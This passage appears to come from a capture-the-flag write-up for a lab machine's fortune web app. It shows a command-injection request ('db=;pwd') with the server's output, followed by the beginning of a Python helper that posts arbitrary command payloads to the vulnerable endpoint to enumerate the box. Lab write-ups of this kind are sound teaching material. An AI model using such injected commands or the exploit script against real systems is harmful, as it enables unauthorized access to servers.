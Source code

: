 ```
Content-Type: application/x-www-form-urlencoded
Content-Length: 7
Connection: close
Upgrade-Insecure-Requests: 1

db=;pwd
```
<br> Response :
```
HTTP/1.1 200 OK
Connection: close
Content-Type: text/html; charset=utf-8
Date: Fri, 02 Aug 2019 11:08:49 GMT
Server: OpenBSD httpd
Content-Length: 680

<!DOCTYPE html>
<html>
<head>
<title>Your fortune</title>
<meta name='viewport' content='width=device-width, initial-scale=1'>
<meta http-equiv="X-UA-Compatible" content="IE=edge">
</head>
<body>
<h2>Your fortune is:</h2>
<p><pre>

Bagbiter:
	1. n.; Equipment or program that fails, usually
intermittently.  2. adj.:  Failing hardware or software.  &#34;This
bagbiting system won&#39;t let me get out of spacewar.&#34;  Usage:  verges on
obscenity.  Grammatically separable; one may speak of &#34;biting the
bag&#34;.  Synonyms: LOSER, LOSING, CRETINOUS, BLETCHEROUS, BARFUCIOUS,
CHOMPER, CHOMPING.
/var/appsrv/fortune


</pre><p>
<p>Try <a href='/'>again</a>!</p>
</body>
</html>
```
<br> I couldn't get a reverse shell, get `ssh` or read the user flag so we are going to enumerate the box through this `RCE` for some time.
<br> I wrote a script to make it easier : 
```
#!/usr/bin/python3
import requests
import sys

YELLOW = "\033[93m"
GREEN = "\033[32m"

def exploit(payload):
	post_data = {"db":payload}
	req = requests.post("http://10.10.10.127/select",data=post_data)
	response = req.text
	return response

def filter(response):
	start = "rce_result"
	end = "rce_result_end"
	result = response[response.find(start)+len(start):response.rfind(end)]
	return result
```